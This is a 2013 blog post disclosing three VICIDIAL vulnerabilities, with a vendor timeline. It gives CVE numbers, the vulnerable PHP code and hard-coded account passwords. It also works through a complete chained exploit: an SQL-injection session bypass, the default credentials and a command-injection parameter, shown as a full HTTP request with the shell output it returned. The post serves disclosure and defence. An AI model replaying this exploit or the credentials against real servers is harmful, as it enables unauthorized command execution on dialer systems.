 ```yaml
---
layout: post
title: "VICIDIAL: Multiple Vulnerabilities"
date: 2013-10-23 02:20
comments: true
categories: 
---
```


*Update:* The VICIDIAL team has publicly released a new version that, according to them, has corrected the issues I've pointed out here. Please make sure you are using the latest version available. If you aren't sure if your instance is safe, contact your friendly local penetration tester to verify it's secure as you expect it to be.

*Update:* The SQL Injection vulnerability has been assigned CVE-2013-4467, and Command Injection assigned CVE-2013-4468.

## Background

[VICIDIAL](http://www.vicidial.org/vicidial.php) (a.k.a. Asterisk GUI client) is an open-source dialer built on top of the Asterisk PBX. It's written in PHP, and has a significant number of security issues.

In addition to the open-source project, the company behind VICIDIAL, [The Vicidial Group](http://www.vicidial.com/), also offers VICIDIAL in a hosted environment.

At this time, the current release version **is still vulnerable**. Vendor reports hosted users are on a fixed version. Vendor proposed to release the OSS code in mid-July, as of October 23rd, no update or advisory has been released.

After discussions with other researchers, I have made the decision that after waiting more than 140 days for a release, patches, or an advisory warning users, that the next responsible step is to disclose the issue publicly.

This is not a decision I take lightly, but I believe at this point users of this application should understand the degree of risk involved, and have details so they can take action to minimize that risk.

## Overview

Tested versions: 2.7RC1, 2.7, 2.8-403a; it is likely other versions are affected.

There are three vulnerabilities that I will discuss here:

 1. Pre-Auth SQL Injection in `./apc/SCRIPT_multirecording_AJAX.php`
 2. Hard-Coded User Credentials
 3. Command Injection in `./agc/manager_send.php`

There are pre and/or post authentication SQL injection flaws in nearly every file in the `./agc` directory. The web portion is split between `./agc` (which is the 'agent' interface) and `./vicidial` (the administrative interface). My review did not include the `./vicidial` directory, though a quick glance indicates that there are likely many issues there as well.

There are many other issues; from XSS to a possible DoS by allowing an attacker to write directly to a log file until the attacker has exhausted the free space on the server.

There's also `./vicidial_mysql_errors.txt` - it might be of interest as it contains query parameters.

I will not document all of the issues that I've found; partly because I don't want to take the time, and also because I feel bad for the team at OSVDB - hundreds of entries for the same application wouldn't be fun.

## Pre-Auth SQL Injection

This is your typical, boring, SQL injection:

{% codeblock lang:php SCRIPT_multirecording_AJAX.php - Line 44 %}
<?php
...
$stmt="select campaign_rec_filename from vicidial_campaigns where campaign_id='$campaign'";
{% endcodeblock %}

The `$campaign` variable is unsanitized and passed directly to the query. This isn't the best SQL Injection ever, but it demonstrates the issue.

## Hard-Coded User Credentials

There are two accounts that are created when you install VICIDIAL that have hard coded passwords, that are used by the software. While these accounts have minimal permissions, they do allow an attacker to get to portions of the code not accessible without a valid user account.

Accounts:

 * VDAD
 * VDCL

Both accounts have the same password: `donotedit`.

## Command Injection

In multiple locations, there are calls to `passthru()` that do not perform any filtering or sanitization on the input. In this case, we are looking at `./agc/manager_send.php` line 429. 

Here is the code in question:

{% codeblock lang:php manager_send.php %}
<?php
...
if ($ACTION=="OriginateVDRelogin")
	{
	if ( ($enable_sipsak_messages > 0) and ($allow_sipsak_messages > 0) and (preg_match("/SIP/i",$protocol)) )
		{
		$CIDdate = date("ymdHis");
		$DS='-';
		$SIPSAK_prefix = 'LIN-';
		print "<!-- sending login sipsak message: $SIPSAK_prefix$VD_campaign -->\n";
		passthru("/usr/local/bin/sipsak -M -O desktop -B \"$SIPSAK_prefix$campaign\" -r 5060 -s sip:$extension@$phone_ip > /dev/null");
		$queryCID = "$SIPSAK_prefix$campaign$DS$CIDdate";

		}
	$ACTION="Originate";
	}
{% endcodeblock %}

To exploit this, the following values must be set:

 * `enable_sipsak_messages=1`
 * `allow_sipsak_messages=1`
 * `protocol=sip`
 * `ACTION=OriginateVDRelogin`
 * `session_name=AAAAAAAAAAAA` (or any other value at least 12 bytes long)
 * `server_ip=' OR '1' = '1`
 * `user=VDCL`
 * `pass=donotedit`

The payload is passed in the `extension` parameter, for my testing, I used the following:

`extension=;id;uname -a;`

As you've probably noticed, the value for `server_ip` isn't just a dummy value, it's taking advantage of a SQL Injection vulnerability on line 285:

{% codeblock lang:php manager_send.php %}
<?php
...
$stmt="SELECT count(*) from web_client_sessions where session_name='$session_name' and server_ip='$server_ip';";
{% endcodeblock %}

This allows us to bypass the check for an active session, and we use the hard coded credentials to get around the need for authentication.

When you execute this, it looks like this:

    GET http://192.168.10.131/agc/manager_send.php?enable_sipsak_messages=1&allow_sipsak_messages=1&protocol=sip&ACTION=OriginateVDRelogin&session_name=AAAAAAAAAAAA&server_ip=%27%20OR%20%271%27%20%3D%20%271&extension=%3Bid%3Buname%20-a%3B&user=VDCL&pass=donotedit HTTP/1.1
    User-Agent: Fiddler
    Host: 192.168.10.131
    
    --
    
    HTTP/1.1 200 OK
    Date: Sun, 02 Jun 2013 23:22:38 GMT
    Server: Apache/2.2.21 (Linux/SUSE)
    X-Powered-By: PHP/5.3.8
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 291
    Content-Type: text/html; charset=utf-8
    
    
    <!-- sending login sipsak message: LIN- -->
    uid=30(wwwrun) gid=8(www) groups=8(www)
    Linux linux-0y3h 3.1.10-1.23.1-pae #1 SMP Tue May 21 12:46:34 UTC 2013 (8645a72) i686 i686 i386 GNU/Linux
    ERROR Exten  is not valid or queryCID LIN--130602192238 is not valid, Originate command not inserted

As you can see, when you run this, the the returned text from the shell is included in the middle of the body in the server's response.

## Timeline & Vendor Response

The vendor quickly acknowledged the issues and promised quick fixes. As time has gone on, their hosted users received the security fixes, users of the open-source version remain unaware of the issue and unprotected.

 * 6/3/2013 - Vendor notified
 * 6/3/2013 - Vendor confirmed
 * 6/13/2013 - Vendor states first phase of changes complete; began rolling out fixes to hosted users.
 * 6/15/2013 - Requested release timeline.
 * 6/15/2013 - Vendor requests disclosure delay till mid-July 2013.
 * 7/3/2013 - Vendor advises second phase of changes complete and being pushed to hosted users.
 * 8/26/2013 - Requested status update.
 * 8/27/2013 - Vendor advises final phase of changes complete, hosted users update with all security changes. Expects to release OSS code in two weeks.
 * 9/20/2013 - Requested status update.
 * 9/25/2013 - Vendor advises of unrelated delay. Expected to complete work for next release by 9/30.
 * 10/23/2013 - Decision made that further delays not in the public interest.

